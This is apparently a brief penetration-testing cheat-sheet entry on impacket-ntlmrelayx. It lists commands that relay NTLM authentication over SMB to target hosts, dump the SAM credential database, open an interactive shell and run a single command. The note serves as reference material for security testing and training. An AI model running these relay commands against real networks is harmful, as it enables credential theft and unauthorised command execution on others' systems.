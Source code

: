 -- -
Used for various exploits with SMB relay. 
#### Basic Usage
```bash
# Depending on you install, you may run these differently
# 1. impacket-ntlmrelayx
# 2. ntlmrelayx.py

# Performs attack, tells you what is successful and dumps the SAM
impacket-ntlmrelayx -tf <target file> -smb2support
impacket-ntlmrelayx -tf relay_targets -smb2support

# supposedly give you interactive shell
impacket-ntlmrelayx -tf relay_targets -smb2support -i

# run single command
impacket-ntlmrelayx -tf relay_targets -smb2support -c "whoami"
```

^b5239c

